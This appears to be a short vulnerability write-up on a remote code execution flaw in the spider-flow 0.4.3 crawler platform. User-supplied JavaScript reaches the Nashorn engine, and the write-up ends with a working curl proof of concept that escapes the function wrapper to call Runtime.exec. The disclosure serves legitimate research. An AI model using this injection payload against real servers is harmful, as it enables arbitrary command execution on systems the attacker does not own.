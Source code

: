 ### spider-flow code injection causes rce

spider-flow code injection causes command execution project introduction spider-flow is a crawler platform that graphically defines the crawler process and implements a crawler without code project address https://github.com/ssssssss-team/spider-flow project versions 0.4.3 vulnerability analysis Found spider-flow-web using script engine Nashorn can parse javascript code and run it. Java objects can be invoked through js code. FunctionService.saveFunction() is executed at line 33 of src/main/java/org/spiderflow/controller/FunctionController.java

Author: Puppy

![img](https://cdn-images-1.medium.com/max/750/1*-dTOdO2a6JyZH7CbxvuUyA.png)

The parameters passed are



![img](https://cdn-images-1.medium.com/max/750/1*_ZENiMegFA8QFPrcRFu62w.png)

ScriptManager.validScript() is called in line 11 of src/main/java/org/spiderflow/core/service/FunctionService.java



![img](https://cdn-images-1.medium.com/max/750/1*QaF11hqV9EJupRuiwe6yDQ.png)

Before that, there was initialization. [@PostConstruct](http://twitter.com/PostConstruct) annotation initializes init(). Call ScriptManager.createEngine () to complete initialization of the function.



![img](https://cdn-images-1.medium.com/max/750/1*fOVxYGs1yK6ArxoSIsgp0A.png)

The initialization process creates the Nashorn engine



![img](https://cdn-images-1.medium.com/max/750/1*Ybs-WmLVZByttQYCjSxRBg.png)

Then concatenate the previous function name scripts. This can be considered empty.

![img](https://cdn-images-1.medium.com/max/750/1*9T74aMq50S5MRPVCIH-keA.png)

Here we think of the first existence 
 The custom validScript function executed later here uses the Nashorn engine to execute the js code.

![img](https://cdn-images-1.medium.com/max/750/1*MJSwjq_jSIg9ZM1t1k6vdQ.png)

Notice here that the code is encapsulated in a function. If successful, encapsulation requires a function call to invoke. You can escape directly from here.



### poc



```
curl http://127.0.0.1:8088/function/save -X POST -d "id=&name=a&parameter=&script=}Java.type(\"java.lang.Runtime\").getRuntime().exec(\"calc\");{"
```

![img](https://cdn-images-1.medium.com/max/750/1*NDwh_b5VZTtzBh8Fzu5btA.png)